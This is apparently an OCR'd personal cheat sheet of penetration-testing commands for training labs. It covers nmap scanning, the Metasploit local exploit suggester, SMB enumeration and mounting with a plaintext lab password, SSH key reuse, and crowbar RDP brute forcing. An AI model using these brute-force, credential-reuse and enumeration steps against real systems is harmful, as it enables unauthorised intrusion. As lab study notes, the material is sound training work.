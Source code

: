 # This is a list of general commands that can be useful

Initial scan:
`nmap -sV -sC -(nP) <IP> --script banner.nse`
General ports:
`nmap -sV -T4 -p- 10.10.10.5`

In msfconsole:
if we have a shell, search `exploit suggest` or `search local exploit suggester`

General:
- Look around. Files on desktop. Take a step back. 
- look for familiar words, `aspnet`, `httpd` etc.

Enumerating cifs:
`smbmap -H 10.129.202.221 -u jason -p C4mNKjAtL2dydsYa6`

mounting cifs:
`sudo mount -t cifs -o username="jason" //10.129.202.221/SHAREDRIVE smb_target`
`net use d: \\10.10.14.174\share /user:test test`

Check if there is an SQL database running´

Also try reusing id_rsa keys, people reuse everything

to brute force rdp: `crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list>`

# Hard lab writeup
`use crowbar to brute force rdp`
assume you can extract an hash from everything



